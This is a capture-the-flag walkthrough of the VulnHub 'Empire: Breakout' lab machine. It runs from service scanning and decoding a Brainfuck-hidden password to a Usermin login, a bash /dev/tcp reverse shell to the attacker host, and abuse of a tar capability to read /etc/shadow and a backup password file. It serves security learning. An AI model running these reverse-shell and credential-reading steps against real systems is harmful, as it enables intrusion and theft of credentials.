 Box Link: https://www.vulnhub.com/entry/empire-breakout,751/

Difficulty: Easy

## Recon
- Requires a username & password
- No feedback given upon failure

## Scanning
IP: eth0: 192.168.68.109

What services are running on the target?
`nmap -sCV -v -oN tcp 192.168.68.109`
- Scan for service versions & default scripts, with verbose, output to file `tcp`

| Port      | Service                 | Version | Description                                                                                  |
| --------- | ----------------------- | ------- | -------------------------------------------------------------------------------------------- |
| 80/tcp    | Apache httpd            | 2.4.51  | Apache web server                                                                            |
| 139/tcp   | netbios-ssn samba smbd  | 4.6.2   | smbd is the server daemon that provides filesharing and printing services to Windows clients |
| 445/tcp   | netbios-ssn samba smbd  | 4.6.2   | smbd is the server daemon that provides filesharing and printing services to Windows clients |
| 10000/tcp | MiniServ (Webmin httpd) | 1.981   | Web-based admin system                                                                       |
| 20000/tcp | MiniServ (Webmin httpd)                | 1.830   | Web-based admin system                                                                       |

Running an `smbmap -H 192.168.68.109` checked for all the disks hosted:
{% highlight shell %}
[+] IP: 192.168.68.109:10000	Name: 192.168.68.109                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.13.5-Debian)
{% endhighlight %}

Running `gobuster` on the site also identified the `/server-status` which resulted in a 403 (Forbidden).

https://192.168.68.109:10000/ is running a **Webmin** login

https://192.168.68.109:20000/ is running a **Usermin** login

Hidden at the bottom of the page-source for the default page is:
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```
This is written in brain fuck, when run it decrypts a password: `.2uqPEfj3D<P'a-3`

Running `enum4linux -a 192.168.68.109` which scans for smb information, identified a user:
`S-1-22-1-1000 Unix User\cyber (Local User)`

Attempting to log into `Usermin` *(port 20000)* with:
- Username: `cyber`
- Password: `.2uqPEfj3D<P'a-3`

Results in success

## Exploitation

After logging into the user account, noticed there was a command terminal.

Ran `bash -i >& /dev/tcp/PARROT_IP/4444 0>&1` on the target to open a reverse shell.
Then using netcat `nc -lvp 4444` on the parrot machine I have connected as cyber.

Gaining some information on the target system:
`cat /proc/version || uname -a`
```
Linux version 5.10.0-9-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.70-1 (2021-09-30)
```

`lsb_release -a`
```
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 11 (bullseye)
Release:	11
Codename:	bullseye
```

`cat /etc/os-release`
```
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

We can see they are running Debian Bullseye version 11.

Now we want to gain root access: Privilege escalation.
Exploring an interesting article for PE using getcap https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/?source=post_page-----dc3170d7748f--------------------------------

When we run `getcap -r / 2>/dev/null` we can see some interesting permissions on the ./tar binary. `cap_dac_read_search` can be seen on the binary.

**CAP_DAC_READ_SEARCH** [Source](https://linux.die.net/man/7/capabilities)
- Bypass file read permission checks and directory read and execute permission checks.

This means we can archive files or directories we don't have permission to access then extract them to view their contents.

Targeting the `/etc/shadow` file we can get all the password hashes for the different accounts on the system.

`tar -cvf shadow.tar /etc/shadow` to archive the dir
`tar -xvf shadow.tar` to extract it

{% highlight shell %}
$ cat shadow
root:$y$j9T$M3BDdkxYOlVM6ECoqwUFs.$Wyz40CNLlZCFN6Xltv9AAZAJY5S3aDvLXp0tmJKlk6A:18919:0:9
...
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:
{% endhighlight %}

Above would have forced me to crack the hash, so we check the `/var/backups/.old_pass.bak` using the same method, and we find an old password:
`Ts&4&YurgtRX(=~h`

`cat /root/rOOt.txt` reveals the final flag: `3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}`